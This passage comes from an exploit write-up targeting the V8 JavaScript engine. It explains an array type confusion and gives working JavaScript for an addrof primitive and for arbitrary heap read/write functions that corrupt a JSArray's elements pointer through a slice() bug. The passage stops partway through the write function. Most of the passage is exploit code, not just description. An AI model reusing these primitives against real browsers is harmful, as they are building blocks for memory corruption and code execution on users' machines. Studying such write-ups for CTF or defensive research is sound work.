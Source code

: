 For example, the value at `obj_arr[0]` is a pointer to an object, and
accessing it through the `obj_arr` will treat it like an object (because
of its map!)
`float_arr` has a different map, that means accessing `float_arr[0]` will
simply treat the object pointer there as a float value.

<br>
Therefore we can stick any object we want into `obj_arr`, then accessing
it through `float_arr` will give us its pointer.

Here is our primitive:
<br>

```js
function addrof(in_obj) {
        // put the obj into our object array
        obj_arr[0] = in_obj;

        // accessing the first element of the float array
        // treats the value there as a float:
        let addr = float_arr[0];

        // Convert to bigint
        return ftoi(addr);
}
```
<br>

#### --[ - Arbitrary read/write within v8 heap

From what we have so far, building an arbitrary r/w is fairly straightforward
since we have direct control over the elements pointer of a JSArray-
we can simply point it to the area we want to r/w from.
However, because of pointer compression this can only be done within the v8 heap.
<br>

```js
function arb_r(addr) { // typeof(addr) == BigInt
    t = [1.1]
    // read is performed at addr + 0x8
    addr = addr - 0x8n

    // ensure addr is tagged as a pointer
    if (addr % 2n == 0) {
                addr += 1n;
    }
    
    // trigger the vuln
    tmp_arr = t.slice(0)

    // set elem ptr to desired address
    tmp_arr[2] = itof(addr)

    // return value there as a BigInt
    return ftoi(tmp_arr[0])
}

function arb_w(addr, val) { // both as BigInts
    t = [1.1]

    // write is made at addr + 0x8
    addr = addr - 0x8n

    // ensure addr is tagged
    if (addr % 2n == 0) {
                addr += 1n;
```